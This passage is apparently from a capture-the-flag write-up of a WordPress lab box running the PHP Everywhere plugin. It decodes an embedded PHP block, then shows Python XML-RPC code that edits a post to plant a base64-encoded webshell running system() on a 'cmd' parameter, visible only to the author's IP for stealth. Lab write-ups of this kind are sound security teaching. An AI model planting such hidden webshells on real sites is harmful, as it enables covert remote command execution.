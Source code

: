 
This part is interesting:

    
    
    <!-- wp:php-everywhere-block/php {"code":"JTNDJTNGcGhwJTIwJTIwZWNobyhmaWxlX2dldF9jb250ZW50cygnJTJGdmFyJTJGd3d3JTJGaHRtbCUyRm91dHB1dC5sb2cnKSklM0IlMjAlM0YlM0U=","version":"3.0.0"} /-->
    

Decoding that in
[CyberChef](https://gchq.github.io/CyberChef/#recipe=From_Base64\('A-Za-z0-9%2B/%3D',true\)URL_Decode\(\)&input=SlROREpUTkdjR2h3SlRJd0pUSXdaV05vYnlobWFXeGxYMmRsZEY5amIyNTBaVzUwY3lnbkpUSkdkbUZ5SlRKR2QzZDNKVEpHYUhSdGJDVXlSbTkxZEhCMWRDNXNiMmNuS1NrbE0wSWxNakFsTTBZbE0wVT0)
(both base64 and url) gives a simple PHP block:

![image-20220201081617286](https://0xdfimages.gitlab.io/img/image-20220201081617286.png)

It seems it is running this code to generate the table on the site by reading
it from this log file.

[PHP Everywhere](https://wordpress.org/plugins/php-everywhere/) is a WordPress
plugin that allows for the running of PHP within WordPress posts. That seems
to be what I’m dealing with.

### Write Webshell

Because I have access as the admin user, I can do basically anything over this
XML-RPC. But with an eye towards being somewhat stealthy (this is a shared
instance, and if I were competing in UHC I wouldn’t want to give away my path
to other competitors), I’ll modify the post to contain a webshell that only
shows up from my IP:

![image-20220201083004841](https://0xdfimages.gitlab.io/img/image-20220201083004841.png)

I’ll get the `Post` instance in Python and modify the content:

    
    
    >>> mod_post = plist[0]
    >>> mod_post.content = '<!-- wp:paragraph -->\n<p>The UHC January Finals are underway!  After this event, there are only three left until the season one finals in which all the previous winners will compete in the Tournament of Champions. This event a total of eight players qualified, seven of which are from Brazil and there is one lone Canadian.  Metrics for this event can be found below.</p>\n<!-- /wp:paragraph -->\n\n<!-- wp:php-everywhere-block/php {"code":"JTNDP3BocCUyMCUwQSUyMCUyMGVjaG8oZmlsZV9nZXRfY29udGVudHMoJy92YXIvd3d3L2h0bWwvb3V0cHV0LmxvZycpKTslMjAlMEElMjAlMjBpZiUyMCgkX1NFUlZFUiU1QidSRU1PVEVfQUREUiclNUQlMjA9PSUyMCcxMC4xMC4xNC42JyklMjAlN0IlMEElMjAlMjAlMjAlMjBzeXN0ZW0oJF9SRVFVRVNUJTVCJ2NtZCclNUQpOyUwQSUyMCUyMCU3RCUyMCUwQT8lM0U=","version":"3.0.0"} /-->\n\n<!-- wp:paragraph -->\n<p></p>\n<!-- /wp:paragraph -->\n\n<!-- wp:paragraph -->\n<p></p>\n<!-- /wp:paragraph -->'
    >>> client.call(posts.EditPost(mod_post.id, mod_post))
    

If I refresh that post, it looks the same. But if I add `?cmd=id` to the end:

![image-20220201083215460](https://0xdfimages.gitlab.io/img/image-20220201083215460.png)

### Script
